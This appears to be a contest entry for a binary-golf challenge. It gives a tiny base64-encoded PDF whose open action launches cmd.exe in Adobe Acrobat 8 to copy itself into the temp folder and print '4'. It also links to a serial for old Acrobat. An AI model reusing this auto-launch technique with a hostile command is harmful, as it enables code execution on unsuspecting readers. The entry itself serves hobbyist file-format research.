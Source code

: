 ---BEGIN BGGP4 ENTRY---
Name or handle: gaycomputers
Contact Info: 
Website, twitter, other online presence: @podling@jorts.horse
Target File Type: pdf
SHA256 Hash: 316a42b34e4266b1f0b8ce90e008f673f67cfc1e2cbd2005bd6eef85b8c19c13
Target Environment (How do we run the file?): Windows 11 (I'm on 25201.1000), Adobe Acrobat 8 Standard (I used https://acrobat.adobe.com/link/track?uri=urn%3Aaaid%3Ascds%3AUS%3A80aa8c58-2951-494e-808a-fb61a6b4aa29 and the serial at https://archive.org/details/acrobat-8)
Any additional info?: In order to solve not being able to open cmd in a local path (and to golf better), the payload searches your entire computer for files named exactly "4". It also preserves the directory structure (to golf better) when it copies it into %TMP%. As a result the exploit takes a very very long time to run, if you are just testing it I recommend replacing "robocopy ./" with "robocopy *PATH_TO_DIR_CONTAINING_PDF*". The file should copy the itself then echo 4 to the terminal. Since I cant get a working directory or local directory in pdf it is essential that the file be named "4" exactly.
Link to PoC video, screenshot, or console output, if any: 
Link to writeup, if any: https://github.com/gaycomputers/bggp4
File contents (base64 encoded please): JVBERi0xLgowIDAgb2JqPDwvUGFnZXM+PmVuZG9iagp0cmFpbGVyPDwvUm9vdDw8L1BhZ2VzPDw+Pi9PcGVuQWN0aW9uPDwvUy9MYXVuY2gvV2luPDwvRiAoY21kLmV4ZSkvUCAoL0sgY2QgLi4vLi4gJnJvYm9jb3B5IC4vICVUTVAlIC9zIC9JRiAiNCIgJmVjaG8gNCk+Pj4+Pj4+Pg==
---END BGGP4 ENTRY---
